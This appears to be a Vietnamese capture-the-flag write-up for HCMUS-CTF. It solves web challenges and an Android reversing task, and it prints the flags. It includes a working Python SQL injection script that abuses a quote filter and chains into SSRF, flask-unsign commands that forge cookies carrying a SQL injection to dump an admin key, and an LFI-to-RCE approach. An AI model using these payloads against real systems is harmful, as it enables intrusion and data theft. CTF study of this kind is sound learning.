

# SHOP CUTIES V3

Sau khi đọc qua source code, thì mình thấy bài này sử dụng concat string trong câu query, nên khả năng cao là dính SQli, ở đây tác giả filter 2 kí tự đó `'` và  `"` 

```
 if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
                die("Làm ơn đừng hack 😵😵😵");
            $sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    $_SESSION['api_path'] = $row['path']; 
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
```

Ở đây mình sử dụng dấu `\` để bypass đoạn check này, `username=blabla\&password=union select 1337,1337 -- -`

Câu truy vấn sẽ thành như sau `select username, path from users where username='blalbal\'&password='union select 1337,1337 -- -`

Lúc này trên server sẽ đọc biến `username=blalbal\'&password=` và câu lệnh union phía sau đã được thi. 

SQLI thành công, nhưng bài này nếu chỉ sqli thì ko đọc được flag.  Vì flag nằm ở path `/flag.php`

Ta nhìn kĩ lại ở dòng này

` $_SESSION['api_path'] = $row['path'];`

Giá trị này sẽ được sử dụng ở file `shopping.php`

`$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};`

Và giá trị `$_SESSION['api_path']` này ta có thể thay đổi dựa vào câu union ở trên. Mục tiêu của ta là đọc được `/flag.php`

Vậy giá trị `$_SESSION['api_path']='@127.0.0.1:32181/flag.php#'` là ta có thể đọc được

Ở đây mình sử dụng 2 function là hex và unhex trong mysql để bypass `"`, `'` vì server không cho sử dụng 2 dấu này

Script để lấy flag 
```
import requests

session = requests.session()
URL = "http://103.245.250.31:32181/login.php"
COOKIES = {"PHPSESSID": "1d6e436162c9045b3d6a42a6dd679c91"}

DATA = {"username": "lol\\", "password": "union select 122,concat(unhex(40),unhex(31),unhex(32),unhex(37),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(31),unhex(hex(47)),unhex(66),unhex(hex(108)),unhex(61),unhex(67),unhex(hex(46)),unhex(70),unhex(68),unhex(70),unhex(23))-- -"}
resp = session.post(URL, cookies=COOKIES, data=DATA).text
print(resp)

```


# NO BACKEND 

Bài này mình sài lệnh wget -i URL, để tải hết các file có trên trang web về sau đó sài lệnh grep HCMUS là có flag


# URL Storing 

Bài này dính lỗi LFI ở tham số `page` . Ở đây mình sử dụng php://wrapper để lấy source về. 

Bài này mình sẽ RCE bằng cách chèn một đoạn code php vào `$_POST['url']` nội dung này sẽ được ghi vào file /db/session_id.db. Sau đó gọi đến file này thông qua  lỗi LFI để RCE 


# SECURE NOTE 

Bài này dính lỗi Path traversal , từ đó mình đọc được source code và file /proc/self/environ (chứa secret_key dùng để sign cái session)

```
def waf_filter(s): 
    forbids = ["'", '"', '*', '\\', '/', '#', ';', '--'] 
    for c in forbids: 
        if c in s: s = s.replace(c, '')
    return s
```



Ta sử dụng array là có thể bypass được waf.

Payload bên dưới dùng đề lấy secret_key của admin

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":["union select 1,2,3,4,group_concat(secret_key) from users where username=0x61646D696E-- -"]}'`

Có được secret_key thì đọc flag nữa là xong

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":"admin"}'`


# BABY DROID 

Bài cho một file apk, tải về sau đó mình sử dụng jadx để decompile file và đọc source code. 

Ở đây có hàm checkFlag()

```
public class FlagValidator {
    public static boolean checkFlag(Context ctx, String flag) {
        String result = Helper.retriever();
        if (flag.startsWith("HCMUS-CTF{") && flag.charAt(19) == '_' && flag.length() == 37 && flag.toLowerCase().substring(10).startsWith("this_is_") && flag.charAt(((int) (MagicNum.obtainY() * Math.pow(MagicNum.obtainX(), MagicNum.obtainY()))) + 2) == flag.charAt(((int) Math.pow(Math.pow(2.0d, 2.0d), 2.0d)) + 3) && new StringBuilder(flag).reverse().toString().toLowerCase().substring(1).startsWith(ctx.getString(R.string.last_part)) && new StringBuilder(flag).reverse().toString().charAt(0) == '}' && Helper.ran(flag.toUpperCase().substring((MagicNum.obtainY() * MagicNum.obtainX() * MagicNum.obtainY()) + 2, (int) (Math.pow(MagicNum.obtainZ(), MagicNum.obtainX()) + 1.0d))).equals("ERNYYL") && flag.toLowerCase().charAt(18) == 'a' && flag.charAt(18) == flag.charAt(28) && flag.toUpperCase().charAt(27) == flag.toUpperCase().charAt(28) + 1) {
            return flag.substring(10, flag.length() - 1).matches(result);
        }
        return false;
    }
}
```
Sau khi reverse đống code trên ta được `HCMUS-CTF{this_is_a_really_basic_rev}` , nhưng mà flag thật thì nó còn gọi đến hàm retriever(), nó sẽ đan xen chữ hoa chữ thường. `HCMUS-CTF{ThIs_iS_A_ReAlLy_bAsIc_rEv}`
